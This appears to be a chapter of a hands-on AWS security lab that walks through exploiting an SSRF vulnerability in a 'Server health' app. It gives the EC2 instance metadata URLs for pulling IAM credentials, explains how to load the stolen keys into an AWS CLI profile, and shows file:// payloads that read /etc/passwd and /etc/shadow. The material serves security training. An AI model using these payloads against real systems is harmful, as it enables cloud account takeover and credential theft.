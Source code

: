 # Stealing credentials 

## Introduction

There are multiple places in an EC2 that can store credentials. An EC2 specific place is the meta-data instance endpoint.

Due to the application being vulnerable to SSRF, an attacker can also use the file:// URI to read other files on the system as well that may contain credentials.

## What are we going to cover?

This chapter will cover an attack that can be used to steal IAM credentials from an EC2 instance that has an IAM role attached to it.

## Steps to attack

As we saw that the application is vulnerable to SSRF, we can use it to fetch IAM creds (if they exist) from the instance metadata.

Oh, and if the vulnerability allows a way, always check what permissions the webserver is running with :)

### Attack 1 - Find the IAM Security Credentials

Provide the following URLs to the Server health application:

    http://169.254.169.254/latest/meta-data/

    http://169.254.169.254/latest/meta-data/iam/

    http://169.254.169.254/latest/meta-data/iam/security-credentials/

What is the endpoint where credentials can be discovered?

Once credentials are discovered, you may notice that these are essentially 3 values

- aws_access_key_id
- aws_secret_access_key 
- aws_session_token

To add them to your local aws cli without overwriting your current configuration, **follow these steps very carefully**

1. Run `aws configure --profile stolen`
2. Provide the stolen values correctly. Enter `us-east-1` for region and `json` for output
3. Once done, open the `~/.aws/credentials` file in a text editor
4. Under the `[stolen]` section add `aws_session_token` and add the discovered token value here
5. To see who you are run `aws sts get-caller-identity --profile stolen`

Any number of profiles can be created. As and when you find credentials, add them to the cli config using different `--profile` options. **Remember to not overwrite the default profile!**

### Attack 2 - What user is this webserver running as?

Can you read the following files?

    file:///etc/passwd

    file:///etc/shadow

The webserver is running as a root user and is able to read the /etc/shadow file

![/etc/shadow file](images/ec2-shadow-file.png)

## Additional references
- [Retrieving Security Credentials from Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html#instance-metadata-security-credentials)
- [Finding SSRF via HTML Injection inside a PDF file on AWS EC2](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90)
- [SSRF to Shell via IAM Policies](https://speakerdeck.com/riyazwalikar/raining-shells-in-aws-by-chaining-vulnerabilities?slide=20)